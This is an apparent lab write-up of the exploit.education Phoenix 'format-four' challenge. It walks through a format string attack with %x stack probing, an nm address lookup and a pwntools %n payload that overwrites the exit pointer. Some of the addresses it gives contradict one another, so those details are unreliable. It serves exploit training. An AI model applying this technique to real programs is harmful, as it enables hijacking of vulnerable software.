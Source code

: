 
## Memory Allocation - Exploit Strategy

There is no way you could overflow buffer overflow variable and overwrite any function pointer in the memory. However, introducing `%n` format modifier string can perform this magic by overwriting the address using `format string vulnerability`. 

 Our first step is to print "AAAA" temporarily and find the padding where it gets stored in the stack memory. We can start our exploration with couple of %x which helps in printing the address of the stack,
 
```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-four $'AAAA%x.%x.\n'
Welcome to phoenix/format-four, brought to you by https://exploit.education
AAAAffffd8ca.100.
Better luck next time!
```
Our experiment continues untill we find `AAAA` or 41414141 in the stack and eventually we come to know that it occurs at the 11th padding,

```shell
user@phoenix-amd64:/opt/phoenix/i486$ ./format-four
Welcome to phoenix/format-four, brought to you by https://exploit.education
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAA0.0.0.f7f81cf7.f7ffb000.ffffd748.804857d.ffffc740.ffffc740.fff.0.41414141
```

Now that we found the padding, it's time to find the exact memory address of `congratulation` function. For 64-bit binary `format-four` it should be `0x400644` and 32-bit binary should be `0x08049868`. While performing the exploit, I personally found 64-bit arch challenging due to few reasons discussed in the next section.

```shell
user@phoenix-amd64:/opt/phoenix/i486$ nm format-four | grep congratulations
08048503 T congratulations
user@phoenix-amd64:/opt/phoenix/i486$
```

So, let's come up with a payload for 32-bit arch format-four binary first, However, we might require a redirection to `congratulations` function and `exit` function at `0x080497e4` address might be perfect candidate for this.

Since, `congratulation` now requires to be `0x08048503` which is pretty huge number and I don't think we have enough bytes to overwrite the memory address. However, there is a workaround by spliting the address into 4 bytes (32 Bit platform) and each byte gets a specific number of junk bytes to overwrite. For example, `\x44\x98\x04\x08` can try writing `45` first and carry forward to next bytes if any overflow.

1. One can start overwriting single byte with trial and error method, starting `changeme+0` with padding 11 yields. We could write some junk characters and bump the padding to `178` and try again. (this is purely based on trial and error method) and our result yields `0x103` which is our target comparing `0x08048503`.

```python
from pwn import *

exit = 0x080497e4
congratulations = 0x08048503

buff= ""
buff += p32(exit+0)
buff += p32(exit+1)
buff += p32(exit+2)
buff += p32(exit+3)

buff += '%x ' * 11      # offset to first byte

buff += 'A' * 178       # JUNK
buff += "%n"            # write to first byte
```